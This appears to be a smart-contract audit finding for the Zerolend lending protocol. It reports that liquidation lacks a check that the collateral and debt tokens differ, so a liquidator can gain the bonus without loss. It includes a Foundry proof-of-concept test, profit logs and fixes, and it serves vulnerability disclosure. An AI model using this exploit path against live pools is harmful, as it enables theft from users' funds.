 Big Admiral Dove

Medium

# A malicious liquidator could exploit the system to gain debt tokens as profit without any losses

## Summary

In the liquidation logic of the protocol, there is a liquidation bonus to incentivize liquidators.

A malicious attacker can gain profit without any loss after running liquidation by setting a collateral asset with a debt one.

## Root Cause

A validation that checks if the collateral and debt tokens are the same is missing [here](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/ValidationLogic.sol#L214-L229) in the liquidation logic.

This will make it possible to sell debt tokens as collateral and also receive debt tokens with a liquidation bonus.

## Internal pre-conditions

- The debt token should be both collateral and borrow enabled. This is particularly likely because Zerolend pools don't separate collateral tokens from debt tokens so one token can be collateral and borrowal at the same time.

- The target position should be unhealthy (`healthFactor` < 1).

## External pre-conditions

## Attack Path

Once the above internal pre-conditions meet, an attacker can call the `Pool::liquidate()` function with only debt token:
```solidity
    pool.liquidate(debt, debt, pos, debtAmt, data);
```

## Impact

The liquidation logic will receive `debtAmt` debt tokens and transfers `debtAmt * liquidationBonus - liquidationFee` debt tokens to the sender.
As `liquidationBonus` is greater than 100%, the liquidator could gain an unearned income if `debtAmt * liquidationBonus - liquidationFee` - `debtAmt`.

## PoC

Updated `_generateLiquidationCondition()` function like the below in `PoolLiquidationTests.t.sol`:

```diff
  function _generateLiquidationCondition() internal {
    _mintAndApprove(alice, tokenA, mintAmountA, address(pool));
+   _mintAndApprove(alice, tokenB, 10 ether, address(pool)); // <-- Add this line
    _mintAndApprove(bob, tokenB, mintAmountB, address(pool));

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, supplyAmountA, 0); // 550 tokenA alice supply
+   pool.supplySimple(address(tokenB), alice, 10 ether, 0); // <-- Add this line to make tokenB collateral enabled
    vm.stopPrank();

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmountB, 0);
    vm.stopPrank();

    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, borrowAmountB, 0);
    vm.stopPrank();

    assertEq(tokenB.balanceOf(alice), borrowAmountB);

    oracleA.updateAnswer(5e3);
  }
```

And added a new test case:
```solidity
  function testLiquidationSimpleSameDebtColl() external {
    _generateLiquidationCondition();
    (, uint256 totalDebtBase,,,,) = pool.getUserAccountData(alice, 0);

    vm.startPrank(bob);
    console.log("bob before", tokenB.balanceOf(bob));
    pool.liquidateSimple(address(tokenB), address(tokenB), pos, 10 ether);
    console.log("bob after", tokenB.balanceOf(bob));

    vm.stopPrank();
  }
```

Here are logs of the test case which shows bob's unearned profit:

```bash
Ran 1 test for test/forge/core/pool/PoolLiquidationTests.t.sol:PoolLiquidationTest
[PASS] testLiquidationSimpleSameDebtColl() (gas: 993817)
Logs:
  bob before 1250000000000000000000
  bob after 1250476190476190476190
```

## Mitigation

There are two alternative mitigation options:
1. A validation, that checks if the collateral token and debt token are not the same, should be added to `ValidationLogic`.
2. Should prevent a reserve from simultaneously being collateral and borrowal for one user.

